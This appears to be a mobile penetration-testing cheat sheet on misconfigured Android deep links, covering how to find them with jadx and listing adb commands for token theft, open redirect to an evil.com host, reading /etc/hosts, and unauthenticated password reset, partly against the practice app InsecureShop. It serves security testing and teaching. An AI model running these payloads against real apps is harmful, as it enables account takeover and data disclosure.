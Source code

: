 **What is it?**

Deep links allow apps to open specific activities via URLs (`app://`, `http://`). Misconfigured deep links can lead to security vulnerabilities..

**How to Test?**

*   **Find Deep Links:** Decompile APK & check **`AndroidManifest.xml`** for keywords like **BROWSABLE** and  **`<dat`** tag and **`Exported="true"` Webview** and check if **javascript enabled** .

    ```bash
    jadx -d output_folder app.apk
    ```
*   **Exploit Commands**

    ```bash
    # steal tokens
    adb shell am start -a android.intent.action.VIEW -d "app://login?token=12345"
    # Open Redirect
    adb shell am start -a android.intent.action.VIEW -d "insecureshop://com.insecureshop/web?url=http://evil.com.target.com"
    # Local File Disclosure
    adb shell am start -a android.intent.action.VIEW -d "insecureshop://com.insecureshop/web?url=file:///etc/hosts"
    # Exploit Lack of Authentication for actions
    adb shell am start -a android.intent.action.VIEW -d "myapp://resetpassword?token=123456"
    ```
